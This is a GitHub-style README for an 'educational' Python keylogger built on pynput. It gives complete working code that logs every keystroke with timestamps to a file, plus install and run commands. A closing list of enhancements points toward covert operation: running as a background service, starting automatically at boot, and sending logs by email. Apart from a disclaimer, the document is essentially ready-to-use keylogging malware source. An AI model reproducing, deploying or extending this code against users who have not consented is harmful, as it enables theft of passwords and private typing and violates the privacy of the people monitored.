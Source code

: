 # Basic Keylogger

A simple educational keylogger built in Python using the pynput library. This project demonstrates how keyloggers work and is intended for educational purposes only.

## Overview

This project creates a basic keylogger that:
- Records all keystrokes on the system
- Logs them with timestamps to a text file
- Continues running until the Escape key is pressed
- Works on Kali Linux (and other Linux distributions)

## Disclaimer

**This software is for educational purposes only.** Using keyloggers without proper authorization is:
- Potentially illegal
- Unethical
- A violation of privacy

Always ensure you have explicit permission before monitoring any system or user.

## Prerequisites

- Kali Linux (or another Linux distribution)
- Python 3
- Administrative privileges (for installation)

## Installation Steps

### 1. Install the required Python package

Since Kali Linux uses an externally managed environment, we used the apt package manager instead of pip:

```bash
sudo apt install python3-pynput
```

### 2. Create a project directory

```bash
mkdir ~/keylogger_project
cd ~/keylogger_project
```

### 3. Create the keylogger script

Create a file named `keylogger.py` with the following code:

```python
from pynput.keyboard import Key, Listener
import logging
import time
import os

# Set up the logging configuration
log_dir = os.path.join(os.path.expanduser('~'), "keylogger_project")
if not os.path.exists(log_dir):
    os.makedirs(log_dir)

# Create log file with timestamp
log_file = os.path.join(log_dir, f"keylog_{time.strftime('%Y%m%d-%H%M%S')}.txt")

# Configure the logging
logging.basicConfig(
    filename=log_file,
    level=logging.INFO,
    format='%(asctime)s: %(message)s'
)

print(f"Keylogger started. Logging to {log_file}")
print("Press Esc key to stop the keylogger")

def on_press(key):
    try:
        # Log alphanumeric keys
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        # Log special keys
        logging.info(f"Special key pressed: {key}")

def on_release(key):
    logging.info(f"Key released: {key}")
    
    # Stop the keylogger if Esc is pressed
    if key == Key.esc:
        print("Keylogger stopped")
        return False

# Start the listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Usage

### Run the keylogger

```bash
python3 keylogger.py
```

### Stop the keylogger

Press the **Esc** key to stop the keylogger properly. 

> Note: Using Ctrl+C will cause a KeyboardInterrupt and the program will not exit cleanly.

### View logged keystrokes

```bash
cat ~/keylogger_project/keylog_*.txt
```

This will display all captured keystrokes with their timestamps.

## How It Works

1. **Listener Setup**: The script uses pynput's Listener to monitor keyboard events.
2. **Event Handlers**: 
   - `on_press()`: Logs when a key is pressed
   - `on_release()`: Logs when a key is released and checks for the Esc key to stop the program
3. **Logging**: All events are saved to a timestamped log file with detailed information

## Potential Enhancements

For legitimate use cases, this basic keylogger could be enhanced with:

- Background operation (running as a service)
- Startup automation
- Email notifications
- Log file encryption
- Advanced filtering options
- GUI for configuration

## Troubleshooting

### Common Issues:

1. **Permission Errors**: Ensure you have the necessary permissions to write to the log directory.
2. **Module Not Found**: If you get a "No module named 'pynput'" error, make sure you installed the package correctly.
3. **X Server Access**: For GUI applications, ensure the script has access to the X server.

## Resources

- [pynput Documentation](https://pynput.readthedocs.io/)
- [Python Logging Documentation](https://docs.python.org/3/library/logging.html)

